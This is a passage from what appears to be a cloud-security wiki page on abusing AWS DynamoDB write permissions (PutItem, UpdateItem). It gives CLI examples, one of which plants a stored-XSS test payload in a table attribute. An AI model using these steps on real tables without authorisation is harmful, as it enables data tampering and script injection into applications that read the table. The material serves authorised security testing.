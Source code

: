 {% tab title="AI Example" %}
```bash
aws dynamodb put-item \
    --table-name ExampleTable \
    --item '{"Id": {"S": "1"}, "Attribute1": {"S": "Value1"}, "Attribute2": {"S": "Value2"}}' \
    --region <region>
```
{% endtab %}
{% endtabs %}

**Potential Impact:** Exploitation of further vulnerabilities/bypasses by being able to add/modify data in a DynamoDB table

### `dynamodb:UpdateItem`

This permission allows users to **modify the existing attributes of an item or add new attributes to an item**. It does **not replace** the entire item; it only updates the specified attributes. If the primary key does not exist in the table, the operation will **create a new item** with the specified primary key and set the attributes specified in the update expression.

{% tabs %}
{% tab title="XSS Example" %}
{% code overflow="wrap" %}
```bash
## Update item with XSS payload
aws dynamodb update-item --table <table_name> \
    --key file://key.json --update-expression "SET Description = :value" \
    --expression-attribute-values file://val.json
### With key.json:
{
    "Id": {
        "S": "1000"
    }
}
### and val.json
{
    ":value": {
        "S": "<script>alert(1)</script>"
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="AI Example" %}
```bash
aws dynamodb update-item \
    --table-name ExampleTable \
    --key '{"Id": {"S": "1"}}' \
    --update-expression "SET Attribute1 = :val1, Attribute2 = :val2" \
    --expression-attribute-values '{":val1": {"S": "NewValue1"}, ":val2": {"S": "NewValue2"}}' \
    --region <region>
```
{% endtab %}
{% endtabs %}
